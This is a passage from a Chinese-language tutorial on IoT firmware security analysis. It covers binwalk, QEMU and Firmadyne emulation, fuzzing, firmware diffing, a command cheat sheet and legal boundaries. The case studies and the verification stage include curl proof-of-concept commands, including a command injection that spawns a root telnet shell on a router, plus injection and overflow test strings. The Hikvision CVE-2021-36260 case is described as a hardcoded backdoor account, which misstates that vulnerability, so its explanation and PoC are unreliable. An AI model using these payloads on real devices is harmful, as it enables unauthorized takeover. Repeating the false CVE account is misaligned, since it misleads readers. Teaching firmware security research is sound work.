├─ 掌握：FACT + QEMU系统模拟 + strace
├─ 技能：全自动分析流水线、动态行为分析、交叉引用
└─ 练习：完整分析一个真实IoT设备（如廉价IP摄像头）

专业阶段（持续）：
├─ 掌握：Fuzzing + 二进制差异分析 + TEE安全
├─ 技能：自动化漏洞挖掘、补丁对比分析、硬件信任根分析
└─ 练习：参与CVE编号的漏洞研究
```

### 22.1.7 实战案例与CVE分析

#### 案例一：海康威视摄像头后门账户（CVE-2021-36260）

海康威视部分摄像头型号的固件中包含一个硬编码的维护后门账户，允许攻击者通过特定URL直接获取管理权限，无需登录：

```bash
# PoC：直接访问后门URL获取设备信息
curl -k "https://192.168.1.100/ISAPI/Security/userCheck" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
  <userCheck>
    <userName>admin</userName>
    <password>12345</password>
  </userCheck>'

# 发现方式：在固件的CGI二进制中strings搜索"ISAPI/"
# 发现所有登录验证逻辑都在libNetwork.so中
# Ghidra逆向后发现hardcoded的password校验逻辑
# 根源：厂商保留了旧版SDK中的硬编码测试账户
```

**影响：** 全球超过100万个海康威视摄像头受影响，攻击者可以获取视频流、修改配置、将设备加入僵尸网络（Mirai变种）。

#### 案例二：D-Link路由器命令注入（CVE-2019-16920）

D-Link DIR-655等型号的固件中，`system()`函数直接拼接用户输入到shell命令：

```bash
# 发现过程
# 1. Binwalk解包固件 → 提取文件系统
# 2. strings+objdump发现/system/交叉引用
# 3. Ghidra定位到CGI中以下代码：

# 伪码
void handle_ping(char *host) {
    char cmd[256];
    sprintf(cmd, "ping -c 4 %s", host);  // 未过滤用户输入
    system(cmd);  // 远程命令执行
}

# PoC
curl "http://192.168.0.1/ping.cgi?host=192.168.0.1;telnetd -l /bin/sh"
```

### 22.1.8 常见误区与陷阱

| 误区 | 错误做法 | 正确做法 | 为什么 |
|------|---------|---------|--------|
| 忽视加密固件 | Binwalk扫不出内容就认为固件安全 | 检查熵图，分析固件更新程序提取解密逻辑 | 许多厂商使用XOR/RC4等弱加密，可在PC端逆向更新程序 |
| 只解包不模拟 | 只分析文件系统，不做运行时分析 | 使用Firmadyne/QEMU让固件跑起来 | 很多漏洞只在运行时触发（如竞争条件、IOCTL攻击） |
| 只分析根文件系统 | 跳过bootloader和配置分区 | 检查所有分区，特别是配置分区/MTD | 配置分区包含原始WiFi密码、设备唯一密钥 |
| grep只搜小写 | 只搜索"password" | 使用`-i`不区分大小写，同时搜"PASSWD"、"PWD" | 固件开发者的命名风格各异 |
| 忽视不常见的架构 | 只熟悉ARM就只看ARM设备的固件 | 安装qemu-user的所有架构模拟器 | MIPS/RISC-V/ARC在IoT中广泛使用 |
| 不检查文件权限 | 忽略文件系统挂载配置 | 检查文件系统的挂载属性（ro/rw） | 可写分区中的文件才能在固件升级时被覆盖后门 |

### 22.1.9 进阶方向

#### 加密固件的解密

当固件熵分析显示高熵均匀分布时，固件很可能被加密了。解密路径通常有：

```bash
# 方法1：逆向PC端升级工具（常有固件解密密钥）
# 使用Ghidra分析Windows版升级工具
# 搜索"decrypt"、"aes"、"xor"等相关字符串

# 方法2：监听RAM中的解密过程
# 通过UART中断引导过程，在解密后但验证前dumps内存
# 或使用JTAG在解密函数执行后读取闪存

# 方法3：常见弱加密模式
# XOR with fixed key：尝试从固件更新程序中提取XOR密钥
# AES with device-specific key：尝试从eeprom/配置文件提取密钥
# Vendor algorithm：某些厂商使用自定义"加密"（实际是base64+XOR）
```

#### 固件二进制差异分析

当厂商发布安全更新时，通过对比新旧固件可以发现补丁位置，进而推断漏洞点的精确位置：

```bash
# 使用Binwalk的对比功能
binwalk -W old_firmware.bin new_firmware.bin

# 使用FACT的差异分析
# FACT内置了固件版本对比功能，高亮显示差异部分

# 使用bindiff（商业工具）进行二进制差异分析
# 导入新旧版本的同一二进制 → 自动匹配函数 → 高亮修改过的函数
```

#### 固件模糊测试（Fuzzing）

对固件中的网络服务进行模糊测试，发现崩溃：

```python
# 使用boofuzz对HTTP服务进行模糊测试
from boofuzz import *

def test_http():
    session = Session(
        target=Target(connection=SocketConnection("192.168.0.1", 80, proto="tcp"))
    )
    
    s_initialize("HTTP Request")
    s_static("GET /")
    s_string("FUZZ", name="Path")  # 模糊路径
    s_static(" HTTP/1.1\r\n")
    s_static("Host: ")
    s_string("192.168.0.1", name="Host")
    s_static("\r\n\r\n")
    
    session.connect(s_get("HTTP Request"))
    session.fuzz()

if __name__ == "__main__":
    test_http()
```

### 22.1.10 固件分析完整工作流速查

以下是一个完整固件分析项目的命令速查清单：

```bash
# ==================== 第一阶段：固件获取 ====================
# 从官网下载
wget -O firmware.bin "http://vendor.com/download/fw_v2.0.bin"

# SPI Flash读取
flashrom -p ch341a_spi -r firmware_dump.bin

# ==================== 第二阶段：固件分析 ====================
# 扫描结构
binwalk firmware.bin
binwalk -E firmware.bin  # 熵分析

# 提取文件系统
binwalk -eM firmware.bin

# ==================== 第三阶段：静态分析 ====================
# 自动化扫描
cd _firmware.extracted/
../firmwalker/firmwalker.sh .

# 硬编码凭据
grep -rin "password\\|secret\\|key\\|token" . --include="*.conf" --include="*.ini"
find . -name "*.key" -o -name "*.pem" -o -name "*.p12"

# 危险函数
find . -type f -executable -exec file {} \\; | grep ELF | \
  cut -d: -f1 | while read b; do strings "$b" | grep -q "strcpy" && echo "$b"; done

# 启动脚本
cat ./etc/init.d/rcS

# ==================== 第四阶段：动态分析 ====================
# QEMU用户态模拟
cp /usr/bin/qemu-arm-static ./squashfs-root/usr/bin/
sudo chroot ./squashfs-root/ qemu-arm-static /usr/sbin/httpd

# Firmadyne系统模拟
# 使用Firmadyne自动化模拟固件
# 访问模拟设备的Web界面进行安全测试

# ==================== 第五阶段：漏洞验证 ====================
# 测试发现的凭据
curl -u admin:found_password http://192.168.0.1/admin/

# 验证命令注入
curl "http://192.168.0.1/ping.cgi?host=127.0.0.1;id"

# 验证缓冲区溢出
curl -d "param=$(python -c 'print("A"*500)')" http://192.168.0.1/goform/test
```

### 22.1.11 法律与道德边界

固件分析涉及逆向工程，在不同司法管辖区有不同的法律界定：

- **中国**：《网络安全法》允许安全研究人员在合法授权范围内进行安全测试。未经授权逆向他人固件可能违反《计算机软件保护条例》
- **美国**：DMCA第1201条存在安全研究例外（2018年修订），允许"善意的安全研究"
- **欧盟**：GDPR和《数字化单一市场版权指令》对安全研究有豁免条款

**安全研究者的最佳实践：**
1. 始终获取设备的书面授权后再进行分析
2. 仅分析自己的设备或获得合法所有权的设备
3. 通过厂商的漏洞奖励计划（Bug Bounty）负责任地披露发现
4. 不公开未修补漏洞的完整PoC/EXP代码
5. 遵守"协调披露"原则（90天修复窗口）